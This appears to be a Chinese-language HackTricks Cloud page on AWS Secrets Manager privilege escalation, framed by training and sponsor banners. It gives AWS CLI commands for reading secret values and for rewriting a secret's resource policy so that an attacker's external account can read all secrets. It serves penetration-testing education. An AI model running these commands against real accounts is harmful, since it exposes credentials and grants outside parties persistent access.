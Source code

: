 # AWS - Secrets Manager Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Secrets Manager

有关 Secrets Manager 的更多信息，请查看：

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

拥有此权限的攻击者可以获取 AWS **Secretsmanager** 中 **秘密内保存的值**。
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**潜在影响：** 访问 AWS secrets manager 服务中的高度敏感数据。

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

通过之前的权限，可以**授予其他主体/账户（甚至外部）**访问**秘密**的权限。请注意，为了**读取使用 KMS 密钥加密的秘密**，用户还需要对**KMS 密钥有访问权限**（更多信息请参见 [KMS Enum page](../aws-services/aws-kms-enum.md)）。
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
